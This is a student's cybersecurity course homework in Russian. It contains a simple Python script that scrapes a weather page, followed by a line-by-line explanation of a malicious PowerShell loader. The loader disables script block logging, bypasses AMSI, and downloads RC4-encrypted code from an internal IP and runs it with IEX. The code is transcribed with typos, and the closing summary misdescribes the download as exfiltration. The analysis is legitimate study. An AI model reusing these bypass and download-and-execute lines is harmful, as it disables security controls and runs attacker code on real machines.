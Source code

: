 # Домашнее задание №27: Scripting, web, python

1) Написать python-script для автоматизации часто выполняемых действий, либо парсинга сайта для получения нужной информации  

2) Расписать действия PowerShell скрипта  
![ScriptTask](https://github.com/StsiapanSikorsky/Cybersecurity_TMScourse/blob/main/Task_27/img/ScriptTask.png)  

Ссылки на дополнительные ресурсы:  
- [Создание symbo table для кастомных ядер](https://blog.tofile.dev/2022/08/22/cloud-forensics.html)  
- [HTML5 templates](https://html5up.net/)  

## 1) Python-script для парсинга сайта погоды  

Перед началом, на сайте погоды, необходимо найти часть, которая хранит значения погоды в Минске. Через консоль разработчиа (F12) поэтапно разворачивая тэги находим нужный   
![Py_1]()  

После чего приступаем к написанию скрипта  

```python
#!/usr/bin/env python3

#импорт библиотек
from bs4 import BeautifulSoup
import requests

#адрес сайта который парсим
url = 'https://yandex.by/pogoda/minsk?lat=53.902735&lon=27.555691'

#проверка связи с сервером
response = requests.get(url)
print(response)

#получение страницы в формате lxml
bs = BeautifulSoup(response.text, "lxml")
#print(bs)

#поиск значения по тэгу и его классу
temp = bs.find('span', 'temp__value temp__value_with-unit')
print(temp.text)
```

## 2) Действия скрипта PowerShell  
``` powershell
IF ($PSVersionTABLE.PSversion.Major=ge3)  
```

- 2.1 Строка провверяет установлен ли в системее PowerShell через встроенную переменную PSVersionTable. PSVersion - свойство, которое представляет номер версии в виде объекта. =ge - оператор сравнения. В случае true, выполняются действия до описания 2.5 включительо.  

``` powershell
>$GPF=[REF].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySetings','N'+'onPublic,Static');  
```

- 2.2 Если условие было выполнено выполнение строки выше предоставляет доступ к закрытому статическому полю **cachedGroupPolicySetings** класса **System.Management.Automation.Utils**. [REF] - тип в PowerShell позволяющий работать на объекты и ссылки, которые не доступны напрямую.  

``` powershell
>if($GPF){
    $GPC=$GPF.GetValue($NULL);
    if($GPC['ScriptB'+'lockLogging'])
    {
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
        $GPC['ScriptB'+'lockLogging']['EnableScriptBlockinvocationLogging']=0;
    }
    $vAl=[Collections.Generic.Dictionary[string,system.object]]::new();
    $Val.Add('EnableScriptB'+'lockLogging',0);
    $VAL.Add('EnableScriptBlockinvocationLogging',0);
    $GPC[*HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\'ScriptB'+'lockLogging']=$VAI
}
```

- 2.3 Фрагмент пытается изменить настройки, связанные с логгированием блока скриптов. Вложенное условие проверяет есть ли настройка ScriptBlockLogging в $GPC и если она существует отключает логгирование (установка EnableScriptBlockInvocationLogging в 0). Последняя строка используется для установки ключа реестра. 

``` powershell
else
{
    [ScriptBlock]."GetFeld"('signatures','NonPublic','Static').SetValue($Null,(New-ObjectCollections.Generic.HashSet[string]))
}
``` 

- 2.4 Блок используетя, если условие if($GPF) вернуло false. В нем код использует рефлексию для доступа к закрытому статическому полю signature в классе ScriptBlock. Метод SetValue вызывается для установленного поля, чтобы задать его значение как новый пустой HashSet<string>. Это эффективно очищает любые существующие подписи, которые PowerShell использует для идентификации подозрительной активности, что может быть полезно для уклонения от обнаружения механизмами безопасности.  

``` powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils') |?{$_}| 
%{
    $_.GetField('amsilnitFailed','NonPublic,Static').SetValue($NULL, $True)
}
``` 

- Команда предназначена для манипуляции статическим полем amsiInitFailed класса AmsiUtils, что позволяет обойти проверки Antimalware Scripting Interface (AMSI). Команда начинается с доступа к классу AmsiUtils в пространстве имен System.Management.Automation с использованием рефлексии. Этот класс отвечает за взаимодействие с AMSI. Часть | ?{$_} фильтрует результаты, но поскольку сразу за ней следует %{}, это фактически не имеет значительного эффекта. Оператор %{} используется для итерации по каждому элементу в конвейере. Внутри цикла метод GetField('amsiInitFailed', 'NonPublic', 'Static') извлекает закрытое статическое поле с именем amsiInitFailed. Это поле указывает, произошла ли ошибка инициализации AMSI. Метод SetValue($NULL, $True) устанавливает это поле в значение $True, что сигнализирует о том, что инициализация AMSI завершилась неудачно. Когда этот флаг установлен в true, последующие вызовы AMSI для сканирования содержимого будут игнорироваться, что фактически отключает защитные меры AMSI.

``` powershell
[System.Net.ServicePolntManager]::Expect100Continue=0;  
$WC=New-ObjectSystem.Net.Webclient;  
$u='Mozila/5.0(WindowsNT6.1; WOW64; Trident/7.0; rv:11.0) likeGecko';  
$WC.Headers.Add('User-Agent', $u);  
``` 

- В начале блока отключается заголовок "Expect:100-continue". Вторая строка создает новый объект WebClient, использующийдля отправки HTTP-запросов и получения ответов от веб-сервера. $u задает строку User-Agent, которая будет отправлена вместе с запросами. Последняя строка добавляет заголовок User-Agent к запросам, отправляемым через объект WebClient.  

``` powershell  
$WC.Proxy=[System.Net.WebRequest]::DefaltWebProxy;  
$WC.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;  
$Script:Proxy=$WC.Proxy;  
$K=[System.Text.Encoding]::ASCII.Getbytes('99754106633f94350db34d548d6091a');  
```   

- В приведенном выше блоке устанавливается и настраиваются параметры прокси для объекта WebClient. DefaultNetworkCredentials автоматически получает учетные данные текущего пользователя для аутентификации на прокси сервере. Последняя строка кодирует строку с использованием кадировки ASCII, предположительно используется для передачи данных по сети.  

``` powershell  
$R=($D, $K=$args; $S=0...255)|%
{
    $J=($J+$S[$_]+$K[$_%$L.count])%256;
    $S[$_], $S[$J], $S[$_]
};
$D|%
{
    $I=($I+1)%256;
    $H=($H+$S[$I])%256;
    $S[$I], $S[$H]=$S[$H], $S[$I];
    $_-bXOR $S[($S[$I]+$S[$H])%256]
};  
$ser="http://10.6.100.123:80";
$t='/news.php';
$WC.Headers.Add("Cookie","session=8xD4koAuu7Hah4KQzwZ/kDq4Oc=");  
$Data=$WC.DownloadData($SER+$T);
$IV=$Data[0..3];
$Data=$Data[4..$Data.lenghth];
-join[Char[]](&$R$Data($IV+$K))|IEX    
```   

- Код выполняет функцию шифрования RC4, после чего отправляют данные на указанный URL 


>[!IMPORTANT] Таким образом представленный на сриншоте код вредоноса, обходит защиту устройства, устанавливает прокси соединение с сервером управлния, шифрует данные при помощи алгоритма RC4 и отправляет их на сервер управления.